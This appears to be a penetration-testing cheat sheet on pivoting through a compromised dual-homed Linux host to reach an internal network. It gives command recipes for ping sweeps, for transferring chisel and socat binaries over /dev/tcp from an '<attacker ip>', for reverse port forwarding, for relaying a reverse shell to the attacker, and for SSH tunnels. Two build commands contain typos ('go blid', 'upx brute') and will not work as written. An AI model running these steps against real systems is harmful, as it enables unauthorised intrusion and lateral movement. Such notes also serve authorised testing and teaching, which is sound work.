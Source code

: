 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

## Enumerating Network Interface Cards \(NICs\)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig** or **ip** commands:

```text
ifconfig
ip a
```

Then we must review the output:

```text
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running. 

```text
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24
for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -&gt; **victim machine**
* 10.10.10.10 -&gt; **pivoting machine**
* attacker -&gt; **attacker machine**

### Pivoting with chisel

Get chisel and build it.

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```text
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```text
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```text
./chisel server --reverse -p 1234
```

* On pivoting machine

```text
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

### Pivoting with socat

Get socat static binary:

```text
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```text
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```text
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```text
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```text
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

### Pivoting with SSH

#### SOCKS Proxy

```text
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```text
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```text
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```text
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```





